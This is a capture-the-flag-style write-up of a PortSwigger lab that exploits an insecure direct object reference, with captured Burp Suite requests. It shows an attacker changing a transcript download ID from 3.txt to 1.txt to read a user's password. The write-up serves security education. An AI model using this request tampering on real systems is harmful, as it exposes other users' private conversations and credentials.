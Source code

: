 In this demo video, we will be able to see how we have implemented the IDOR vulnerability using the Portswigger lab. Initially, we are to bypass the authentication of a user but we do not have his login credentials. However, we do know that his username is Carlos. In order to extract this information, we click on the Live Chat option and start chatting. 

Simultaneoulsy, we turn on the proxy and connect to Burpsuite (Instructions on how to install Burpsuite are listed on the BurpSuite Installation file from the main menu). Once we are connected to Burpsuite, we turn on the Intercept and capture the live data from the website and monitor the traffic accordingly. 

Next, we converse a bit with the automated agent on the site and click on "View Transcript". This as well is captured on BurpSuite. The following can be seen on the Burpsuite tab before the chat is initiated:

GET /chat HTTP/1.1
Host: ac3c1f491e41921ac04132ce00c100ed.web-security-academy.net
Cookie: session=z4OEDOySGTju5qpD5KcmIibmTUlzBaMT
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ac3c1f491e41921ac04132ce00c100ed.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

Once the Live Chat is initiated, the following is captured:

GET /academyLabHeader HTTP/1.1
Host: ac3c1f491e41921ac04132ce00c100ed.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: /
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Sec-WebSocket-Version: 13
Origin: https://ac3c1f491e41921ac04132ce00c100ed.web-security-academy.net
Sec-WebSocket-Key: CXXIpKR8C4joiI8aLp8w9A==
Connection: keep-alive, Upgrade
Cookie: session=z4OEDOySGTju5qpD5KcmIibmTUlzBaMT
Pragma: no-cache
Cache-Control: no-cache
Upgrade: websocket

On analysis, we can see that a simple GET method is used to capture data and whatever is entered in the field is simply returned. This is where our exploitation comes to light. On clicking Forward, the requests are passed and we move to the next steps. Now, to get hold of the password of the user, we need to understand that at some point, the automated agent has confirmed with the user that the password is so and so. For us to know what this is, we simply change the following:

From: GET /download-transcript/3.txt HTTP/1.1
To: GET /download-transcript/1.txt HTTP/1.1

Once these changes are made, we simply have to click on the Forward button to bypass the requests and finally reach the point where the transcript is available for download. Post downloading of the new "1.txt" file, we open it to find the "confidential" conversation between the two to find out what Carlos' password is. 

The extracted password is simply copy pasted into the login page and voila, we have now exlpoited the vulnerability without much work. 

DEMO VIDEO: https://drive.google.com/drive/folders/1fRn__sgbEjkxFmi94SlCWaPlWWOESOKV?usp=sharing

